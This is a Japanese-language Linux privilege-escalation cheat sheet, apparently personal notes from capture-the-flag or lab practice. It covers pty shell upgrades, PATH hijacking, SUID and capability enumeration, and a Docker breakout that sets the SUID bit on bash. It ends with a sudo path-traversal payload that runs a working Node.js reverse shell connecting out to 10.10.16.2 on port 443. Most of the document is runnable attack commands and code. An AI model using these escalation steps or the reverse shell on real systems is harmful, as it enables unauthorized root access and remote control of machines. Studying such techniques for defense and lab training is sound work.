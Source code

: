 ## ## Reverse shellが完了した後
ptyを使用したshell
```
- 方法1
# python -c "import pty;pty.spawn('/bin/bash')"

方法2
# script /
```
https://hidepatidar.medium.com/spawning-interactive-reverse-shell-7732686ea775

---
## ## 1. PATH
- シェルで使用するコマンドは、絶対パスで指定をしない限り、
  PATH変数で定義されるディレクトリを見に行く。
  
- ユーザが書き込み権限を持っているフォルダーがパスにある場合アプリケーションを
  乗っ取ってスクリプトを実行する可能性がある。
  
  ▼手順
   - この手法は、システムの既存の構成に依存しているため以下の点を確認する必要がある。
     1.  $PATHの下にあるフォルダー
     2.  現在のユーザは、これらのフォルダのいずれかに対する書き込み権限を持っているか？
     3.  $PATHを変更できるか。
     4.  この脆弱性の影響を受ける、スクリプト/アプリケーションはあるか？
     
	書き込み可能なフォルダーを検索する方法。
	```
	# find / -writable 2>/dev/null | cut -d "
	```
    ここでecho $PATHとfindの結果を比較しPATHが通っているディレクトリに書き込み権限が
	ないことがわかったら、/tmpなどの書き込みができるフォルダーのPATHを通してあげる必要がある。
    ```
	# export PATH=/tmp:$PATH
	```

---
## ## 2. SUID
   1.SUIDまたはSGIDビットが「s」で設定されているコマンドを特定する。
	```
	# find / -type f -perm -04000 -ls 2>/dev/null
	```
   2. 上記で見つかったものを以下のサイトで調べる。
	https://gtfobins.github.io/#
   3. 上記のサイトで有効な手段が見つからなかった場合。
	  例えば、nanoユーザにrootとして実行できる権限が付与されている場合、その権限を使用して、rootが所有しているファイルでも関係なく読み取るか書き換えることが可能になる。
      
[自作CheetCheat](https://hackmd.io/w2nCuiJhSzyWfmBpeeXyJw)

---
## ## 3.Capabilities
1.以下のコマンドを使用して有効なケーパビリティを確認できる。
  ```
  # getcap
  ```
2.上記のコマンドのみだとめちゃくちゃエラー出力が出るので以下を実施。
  ```
  # getcap -r / 2>/dev/null
  ```

---
## ## Docker
   前提:コンテナ上でRoot権限を取得していること
   1. ホスト側で以下のコマンドを入力してDockerコンテナとホスト間で共有してあるディスクを確認する。
      ```
      # df -h
      ```
      
      以下が返ってくる。
```
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           394M  1.3M  392M   1% /run
/dev/sda2       6.8G  4.3G  2.4G  64% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm              64M     0   64M   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm              64M     0   64M   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
tmpfs           394M     0  394M   0% /run/user/1000
```

   2. DockerContainerにて以下のコマンドを実行
      ```
      # cd /bin/
      # chmod u+s ./bash
      ```
      
   3. マシンのホスト側にて以下を実施
      ```
      # bash -p
      ```
  - 参考
    - Hacktricks
      https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation

---

## ## SUDO
   - sudo -l
     /usr/local/scripts/に書き込み権限がないときは/usr/local/scripts/../../../で書き込みができるディレクトリまでさかのぼり実行すればできる。
     ```
     (ALL) /usr/bin/node /usr/local/scripts/*.js
     ```
     
     - 以下のようなコードで実行可能
       ```
       # cat /home/angoose/reverseshell.js 
       (function(){
        var net = require("net"),
          cp = require("child_process"),
          sh = cp.spawn("/bin/bash", []);
        var client = new net.Socket();
        client.connect(443, "10.10.16.2", function(){
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        });
        return /a/; // Prevents the Node.js application from crashing
        })();
        ```
        - payload
          ```
          # sudo /usr/bin/node /usr/local/scripts/../../../..//home/angoose/reverseshell.js
          ```
        